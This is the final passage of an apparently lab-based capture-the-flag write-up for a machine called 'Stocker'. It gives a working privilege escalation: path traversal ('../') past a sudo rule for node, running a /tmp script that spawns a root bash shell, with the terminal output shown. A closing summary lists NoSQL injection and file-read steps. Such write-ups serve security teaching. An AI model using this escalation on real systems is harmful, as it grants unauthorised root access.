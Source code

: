 ```bash

angoose@stocker:~$ cat /tmp/curiosity.js 
console.log("I can run any script from any directory with root permissions")
angoose@stocker:~$ 
angoose@stocker:~$ sudo /usr/bin/node /usr/local/scripts/../../../tmp/curiosity.js 
I can run any script from any directory with root permissions

```

To demonstrate what I said above, I have created a simple JS script in `/tmp`.

Then I used `../` sequences to iterate from `/usr/local/scripts` to `/tmp/curiosity.js`. Since I ran the node script with `sudo` we are able to run it with elevated privileges.

```bash

angoose@stocker:~$ cat /tmp/curiosity.js 
require("child_process").spawn("/bin/bash", {stdio: [0, 1, 2]})
angoose@stocker:~$ 
angoose@stocker:~$ sudo /usr/bin/node /usr/local/scripts/../../../tmp/curiosity.js 
root@stocker:/home/angoose# 
root@stocker:/home/angoose# 
root@stocker:/home/angoose# cd
root@stocker:~# id; whoami
uid=0(root) gid=0(root) groups=0(root)
root

```

I have edited the JS script to spawn a `bash` shell. 

So when we run the script again with `sudo`, we got a `root` shell.

# CONCLUSION

As it can be seen, the box is pretty straight-forward. It seems a bit lengthy considering that it is an easy rated box.

The box is all about finding a juicy subdomain, followed by discovering a NoSQL injection vulnerability, an arbitrary file read vulnerability escalated from a simple HTML injection and finally discovering hardcoded reusable credentials. 

The privilege escalation part is also something that can seen as pretty obvious.

So, that is all in this box.

Thanks for reading this far. I hope you liked it.


